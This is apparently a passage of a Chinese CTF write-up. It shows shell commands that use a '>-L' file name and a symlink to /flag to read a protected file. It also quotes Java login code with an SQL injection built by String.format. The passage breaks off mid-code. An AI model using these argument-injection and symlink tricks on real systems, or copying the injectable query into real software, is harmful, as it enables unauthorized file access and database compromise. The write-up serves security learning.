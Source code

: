 命令如下

```
cd /var/www/html/primary
>-L
ln -s /flag flag
cd ../backup
cat flag
```

![image-20250211214222306](https://tuchuang-1322176132.cos.ap-chengdu.myqcloud.com//imgimage-20250211214222306.png)

![image-20250211214231436](https://tuchuang-1322176132.cos.ap-chengdu.myqcloud.com//imgimage-20250211214231436.png)

## EasyDB

服务给我们的有用接口只有一个登陆接口

```
@PostMapping({"/login"})
    public String handleLogin(@RequestParam String username, @RequestParam String password, HttpSession session, Model model) throws SQLException {
        if (this.userService.validateUser(username, password)) {
            session.setAttribute("username", username);
            return "redirect:/";
        } else {
            model.addAttribute("error", "Invalid username or password");
            return "login";
        }
    }
```

validateUser中存在着sql注入漏洞

```
 public boolean validateUser(String username, String password) throws SQLException {
        String query = String.format("SELECT * FROM users WHERE username = '%s' AND password = '%s'", username, password);
        if (!SecurityUtils.check(query)) {
            return false;
        } else {
            Throwable var8;
            try (Statement stmt = this.connection.createStatement()) {
                stmt.executeQuery(query);
                ResultSet resultSet = stmt.getResultSet();
                Throwable var7 = null;

                try {
                    var8 = resultSet.next();
                } catch (Throwable var31) {
                    var8 = var31;
                    var7 = var31;
                    throw var31;
                } finally {
                    if (resultSet != null) {
                        if (var7 != null) {
                            try {
                                resultSet.close();
                            } catch (Throwable var30) {
                                var7.addSuppressed(var30);
                            }
                        } else {
                            resultSet.close();
                        }
                    }

```